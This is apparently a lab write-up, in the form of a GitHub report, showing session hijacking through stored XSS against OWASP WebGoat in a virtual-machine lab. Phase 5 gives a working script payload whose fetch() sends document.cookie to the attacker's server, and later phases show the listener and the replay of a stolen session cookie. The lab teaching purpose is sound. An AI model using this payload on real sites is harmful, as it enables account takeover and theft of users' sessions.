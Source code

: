 # Session Hijack using XSS

The Docsify-This version is available [here](https://docsify-this.net/?basePath=https://raw.githubusercontent.com/stefano-chen/Report-Cybersecurity/main&homepage=home.md#/)

## Introduction
A **Session Hijack attack** exploits the web session control mechanism,tipically managed by a session cookie.
This **session cookie**, generated by the web server and sent to the client browser following successful authentication, is a variable-length string that identifies the session.

**Session Hijacking** involves compromising this session cookie, either by stealing or predicting a valid value, to gain **unauthorized** access to the Web Server.
There are several common methods for compromising a session cookie, including:
* Predictable session cookie
* Session Sniffing (e.g. Man-in-the-middle, Man-in-the-browser)
* Client-side attacks (e.g. XSS, malicious JavaScript Codes, Trojans)

In this report, we will demonstrate how to perform **Session Hijack using Cross-Site Scripting (XSS)**.

## What is XSS?
**Cross-Site Scripting (XSS) attacks** are a type of injection where malicious scripts are injected into otherwise benign and trusted websites. These attacks exploit flaws in web applications that use user input in their output without proper validation or encoding.

An attacker can use XSS to send malicious scripts to unsuspecting users. The user's browser, having no way to determine that the script should not be trusted, executes it, allowing the attacker to access cookies or other sensitive information retained by the browser.

XSS attacks are generally categorized into two types: reflected and stored.

* **Reflected XSS Attacks**: These attacks involve scripts that are reflected off a web server, such as in an error message or search result, where the server includes part or all of the input sent to it in the response. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable website, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server.

* **Stored XSS Attacks**: These attacks involve scripts that are permanently stored on the target server, such as in a database, message forum, visitor log, or comment field. The victim retrieves the malicious script from the server when requesting the stored information.

In the following experiment, we will use a **stored XSS attack** to steal a session cookie.

## Experiment
To demonstrate the simplicity and danger of exploiting a website vulnerable to XSS, we will simulate a stored XSS attack on a vulnerable website to obtain the session cookie of an unsuspecting user.

#### Environment
To simulate the attack, we will use:

* [VMware Workstation Player](https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html.html): A platform for running virtual machine
* [OWASP WebGoat](https://github.com/WebGoat/WebGoat): A deliberately insecure web application designed to teach web application security lessons
* [Python3](https://www.python.org/about/gettingstarted/): To generate an attacker-controlled HTTP server


We will use three virtual machines:

1. [Kali Linux](https://www.kali.org/get-kali/#kali-platforms) as attacker machine with Python3 installed
2. [Ubuntu](https://ubuntu.com/download/desktop) as Web Server with OWASP WebGoat installed.
3. [Windows](https://www.microsoft.com/en-us/software-download/windows10) as victim machine


#### Network Setup
The virtual machines have the following IP addresses and are inside a [NAT](https://docs.vmware.com/en/VMware-Workstation-Player-for-Windows/17.0/com.vmware.player.win.using.doc/GUID-37EA4A9D-DE43-4159-8982-2DFD9D5959AD.html) network:

| O.S. | IP addresss | Subnet Mask|
| ------ | ----------- | ---- |
| Kali   | 192.168.28.133 | 255.255.255.0 |
| Ubuntu   | 192.168.28.132 | 255.255.255.0 |
| Windows   | 192.168.28.134 | 255.255.255.0 |

### Phase 1: Ping
The first phase involves ensuring network connectivity between the attacker, the web server, and the victim machine. This step is critical because successful communication is required for the attack to proceed. The ping command is used to verify that each machine can reach the others over the network.

On Kali Linux:
```bash
$ ping -c4 192.168.28.132
```

On Windows:
```powershell
> ping 192.168.28.132
```

### Phase 2: Run WebGoat
Running WebGoat involves setting up a deliberately insecure web application on the Ubuntu server. The command:
```bash
$ sudo docker run --name webgoat -it -p 192.168.28.132:8080:8080 webgoat/webgoat
```
pulls the WebGoat Docker image and runs it, exposing it on port 8080. This setup creates a controlled environment where security vulnerabilities, such as XSS, can be safely explored and demonstrated.

### Phase 3: Attacker Account
To begin the attack, the attacker needs an account on the WebGoat application. Using Kali Linux, the attacker opens a browser and navigates to:
```url
http://192.168.28.132:8080/WebGoat/
```
![Attacker Login](images/attacker-login.png) \

The attacker registers a new account by clicking the register button and providing the necessary details. This account will be used to identify and exploit vulnerabilities in the web application.
![Attacker Register](images/attacker-register.png) \

### Phase 4: Identify XSS Vulnerability
The next step is to identify a vulnerability in the WebGoat application. By navigating to the "Cross Site Scripting (stored)" section under "Injection," the attacker accesses a simulated forum where users can post comments.
![xss page](images/xss-page.PNG) \

To test for vulnerabilities, the attacker posts a comment with HTML tags: 
```html
<strong> Hello World </strong>
```
![xss test](images/xss-test.PNG) \

If the comment is displayed with formatting, it indicates that the application does not properly sanitize input, confirming the presence of an XSS vulnerability.

### Phase 5: Payload Injection
Once the XSS vulnerability is identified, the attacker injects a malicious payload to steal session cookies. The payload:
```javascript
<script>fetch("http://192.168.28.133:9000/?cookie=" + document.cookie)</script>
```
![xss payload](images/attacker-payload.PNG) \

is crafted to send the session cookie to the attacker's server. 

This script, when executed by the victim's browser, will fetch all the cookies and send them to the specified URL (the attacker's server).

### Phase 6: Attacker Controlled Server
To receive the stolen cookies, the attacker sets up an HTTP server on Kali Linux. Using the command 
```bash
python3 -m http.server --bind 192.168.28.133 9000
```
![attacker server](images/attacker-server.PNG) \

the attacker creates a simple HTTPS server listening on port 9000. This server will capture any incoming HTTP requests, including those generated by the malicious payload.

### Phase 7: Target Access Comment
An unsuspecting user on the Windows VM visits the WebGoat application and views the forum with the injected comment. When the user's browser renders the comment, the embedded script executes, sending the session cookie to the attacker's server. The attacker observes the incoming request on their HTTP server, capturing the session cookie.
![cookie](images/cookie.PNG) \


### Phase 8: Use Session Cookie
With the session cookie in hand, the attacker can impersonate the victim. The attacker opens the browser's debugger console (e.g., in Firefox) and uses the command 
```javascript
document.cookie="JSESSIONID=VTEZoDF-sff80Wp4eXg4GVI_yb8-kn5yPlZQ-IvJ"
```
to set their session cookie to the stolen value. This action allows the attacker to assume the victim's session, gaining unauthorized access to the web application with the same privileges as the victim.
![impersonate](images/impersonate.PNG) \

## Conclusion
The experiment illustrates the ease with which a stored XSS attack can be used to perform session hijacking, revealing significant vulnerabilities in web applications that fail to properly sanitize user inputs. By injecting a malicious script into a vulnerable web application, an attacker can steal session cookies from unsuspecting users, allowing the attacker to impersonate the victim and gain unauthorized access to sensitive information and functionalities within the web application.


## References and Inspirations
* Exploiting XSS-stealing cookies, https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
* Cross Site Scripting, https://owasp.org/www-community/attacks/xss/
* Cross-Site Scripting Explained and Demostrated, https://youtu.be/PPzn4K2ZjfY?si=7MS2tBcXuaxEAoRR
* Session Hijacking Attack, https://owasp.org/www-community/attacks/Session_hijacking_attack